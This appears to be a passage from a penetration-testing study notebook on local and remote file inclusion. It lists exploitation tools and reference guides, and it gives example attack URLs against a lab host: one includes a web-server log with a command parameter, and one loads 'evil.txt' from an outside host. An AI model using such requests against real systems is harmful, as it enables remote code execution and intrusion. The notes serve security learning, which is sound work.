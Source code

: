{% tabs %}
{% tab title="Identification" %}
* Discovered the same way as directory transversals
* Locate parameters you can manipulate and attempt to use them to load arbitrary files
* We take it one step further and attempt to execute the contents of the file within the application
* Local file inclusions (LFI) occur when the included file is loaded from the same web server.
  * http://10.11.0.22/menu.php?file=c:\xampp\apache\logs\access.log\&cmd=ipconfig
* Remote file inclusions (RFI) occur when a file is loaded from an external source.
  * Try changing the local path parameter to a URL.
  * [http://10.11.0.22/menu.php?file=http://10.11.0.4/evil.txt](http://10.11.0.22/menu.php?file=http://10.11.0.4/evil.txt)
{% endtab %}

{% tab title="Tools" %}
* [LFISuite](https://github.com/D35m0nd142/LFISuite) - LFI Suite is a totally automatic tool able to scan and exploit Local File Inclusion vulnerabilities using many different methods of attack
* [Liffy](https://github.com/hvqzao/liffy) - Local File Inclusion Exploitation tool.
* [Kadimus](https://github.com/P0cL4bs/Kadimus) - Kadimus is a tool to check for and exploit LFI vulnerabilities, with a focus on PHP systems.
* [fimap](https://github.com/kurobeats/fimap) - Fimap is a little python tool which can find, prepare, audit, exploit and even google automatically for local and remote file inclusion bugs in webapps.
{% endtab %}

{% tab title="Reference" %}
* [LFI CheatSheet](https://highon.coffee/blog/lfi-cheat-sheet/)
* [File Inclusion Vulnerability Guide ](https://www.offensive-security.com/metasploit-unleashed/file-inclusion-vulnerabilities/)
* [https://xapax.github.io/security/#attacking\_web\_applications/local\_file\_inclusion/](https://xapax.github.io/security/#attacking\_web\_applications/local\_file\_inclusion/)
* [https://xapax.github.io/security/#attacking\_web\_applications/remote\_file\_inclusion/](https://xapax.github.io/security/#attacking\_web\_applications/remote\_file\_inclusion/)
* [https://pentestbook.six2dez.com/enumeration/web/lfi-rfi](https://pentestbook.six2dez.com/enumeration/web/lfi-rfi)
* [Comprehensive Guide on Local File Inclusion (LFI)](https://www.hackingarticles.in/comprehensive-guide-to-local-file-inclusion/)
* [Comprehensive Guide to Remote File Inclusion (RFI)](https://www.hackingarticles.in/comprehensive-guide-to-remote-file-inclusion-rfi/)
* [https://tryhackme.com/room/lfibasics](https://tryhackme.com/room/lfibasics)
{% endtab %}
{% endtabs %}

## **File Upload**

<details><summary>File Upload</summary></details>

## HTML Injection

* [**Comprehensive Guide on HTML Injection**](https://www.hackingarticles.in/comprehensive-guide-on-html-injection/)
